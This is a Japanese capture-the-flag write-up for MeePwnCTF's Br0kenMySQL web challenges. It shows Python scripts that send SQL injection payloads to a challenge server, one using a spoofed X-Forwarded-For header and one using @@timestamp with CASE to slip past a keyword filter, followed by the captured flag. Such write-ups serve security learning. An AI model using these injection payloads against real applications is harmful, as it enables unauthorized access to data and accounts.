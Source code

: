 ```php
</pre>
```

`"SELECT username FROM users WHERE id = ". $id` の結果が `guest` ならもう一度このクエリを実行し、その結果が `admin` ならフラグを表示するようです。

2 度目のユーザ名のチェックの前に IP アドレスを `logs` に記録しているので、これを利用して `X-Forwarded-For` にランダムな値を入れて、`logs` に存在するかどうかで `id` を変えるようにしてみます。

```python
import random
import requests

x = str(random.random())
print requests.get('http://139.59.239.133/?id=if((select 1 from logs where ip = "{}"), 1, 2)'.format(x), headers={
  'X-Forwarded-For': x
}).content
```

```
MeePwnCTF{_b4by_tr1ck_fixed}
```

## [Web 100] Br0kenMySQL v2

Br0kenMySQL とほとんど同じですが、フィルターに `select|from|\(|\)` が追加されました。

変数に何か使えるものはないか探してみると、以下のような情報が得られました。

```
root@f0234be6b01e:/# mysql -u root -p -h $MYSQL_PORT_3306_TCP_ADDR -e "show variables" > a.txt
Enter password:
root@f0234be6b01e:/# mysql -u root -p -h $MYSQL_PORT_3306_TCP_ADDR -e "show variables" > b.txt
Enter password:
root@f0234be6b01e:/# diff a.txt b.txt
387c387
< pseudo_thread_id      9
---
> pseudo_thread_id      10
491c491
< timestamp     1500173439.524841
---
> timestamp     1500173443.255130
```

`@@timestamp` が使えそうです。`if` が使えなくなってしまったので、`case` で代替しましょう。

```python
import requests
import time
import urllib

while True:
  print requests.get('http://139.59.239.133/v2/?id=' + urllib.quote('case @@timestamp * 100 % 100 & 1 when 1 then 1 else 2 end')).content
  time.sleep(.1)
```
